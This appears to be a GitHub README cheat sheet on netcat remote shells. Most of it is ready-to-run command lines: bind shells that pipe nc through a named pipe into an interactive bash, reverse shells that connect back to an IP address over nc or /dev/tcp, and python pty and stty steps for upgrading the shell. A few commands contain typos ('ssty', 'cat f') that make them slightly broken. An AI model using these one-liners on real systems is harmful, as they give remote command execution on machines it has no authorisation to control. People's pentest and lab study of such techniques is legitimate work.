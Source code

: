 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Bind Method 1
on Remote Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Bind Method 2
On Remove Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Bind Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

#to show output on remote host<br>
mkfifo /tmp/f ; nc -l 1234 < /tmp/f | /bin/bash -i 2>&1 | tee /tmp/f

# Reverse Shell Methods
#similar to bind shell except remote target machine reaches out to server
On Client:
nc -l -p 1234

On Remote Server:
mkfifo /tmp/f; nc 10.10.0.1 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

or On Remote Server:
/bin/bash -i > /dev/tcp/<ip>/<port> 2>&1 0<&1

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'

Alternate Method:
ctrl+z to put current session in background
ssty raw -echo
fg
reset
xterm
